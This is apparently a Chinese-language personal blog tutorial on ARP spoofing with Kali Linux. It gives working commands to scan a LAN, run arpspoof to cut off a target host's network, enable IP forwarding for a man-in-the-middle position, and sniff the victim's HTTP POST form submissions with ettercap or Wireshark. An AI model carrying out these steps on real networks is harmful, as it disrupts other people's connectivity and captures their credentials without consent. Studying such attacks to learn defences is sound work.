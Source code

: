 ```yaml
---
layout:     post
title:      kali之ARP欺骗断网攻击
subtitle:   kali初探
date:       2020-05-05
author:     TL
header-img: img/home-bg-o.jpeg
catalog: true
tags:
    - kali
---
```


## kali之ARP欺骗断网攻击

### whit's ARP?
ARP:地址解析协议，从网络层使用的 IP 地址，解析出在数据链路层使用的硬件地址。
Windows上 `arp -a`可查看本地ARP cache表
`arp -s`添加静态表项
`arp -d`删除arp表象
由于不管网络层使用的是什么协议，在实际网络的链路上传送数据帧时，**最终还是必须使用硬件地址**。 每一个主机都设有一个 ARP 高速缓存 (ARP cache)，里面有所在的局域网上的各主机和路由器的 IP 地址到硬件地址的映射表。
通过伪造IP地址和MAC地址实现ARP欺骗，持续不断的发出伪造的ARP响应包，就能更改目标主机ARP缓存中的IP-MAC条目，造成网络中断或中间人攻击，进行ARP重定向和嗅探攻击。 

### 安装dsniff
首先确保kali有arpspoof工具
> apt-get install dsniff
确保成功: arpspoof -h
### ip
首先查看自己的IP
> ifconfig

接下来查看局域网有哪些主机
> fping -g 192.168.0.1/24

也可以用工具Ettercap去嗅探局域网有哪些主机
> ettercap -G
### 进行攻击
> arpspoof -i eth0 -t 192.168.0.5 192.168.0.1
### ARP欺骗嗅探信息
我们要使用的工具还是ARPSpoof，因为我们此次攻击方式是欺骗，同时，我们还可以用Eteercap去嗅探目标靶子的流量，或者wires hark等工具来抓包，获取目标的重要信息。

-----
*首先要开始IP转发功能，linux因为系统安全考虑，是不支持IP转发的，其配置文件写在**/proc/sys/net/ipv4**的ip_forward中。默认为0，接下来修改为1.*
> cd /proc/sys/net/ipv4
> cat ip_forward
> echo 1 > ip_forward

此时已经修改成功
就可以进行ARP欺骗

> arpspoof -i eth0 -t 192.168.0.5 192.168.0.4
*后面就要改为你的主机IP，由你的主机来转发*

接下来就可以使用ettercap嗅探> zhubaoettercap -Tq -i eth0
或者来抓包
在 filter 输入过滤的语句 `http.request.method==POST` 这个时候就只显示了http 协议下 post 请求的数据包。
打开`THML Form URL Encode`选项就会看到一些提交的表单信息

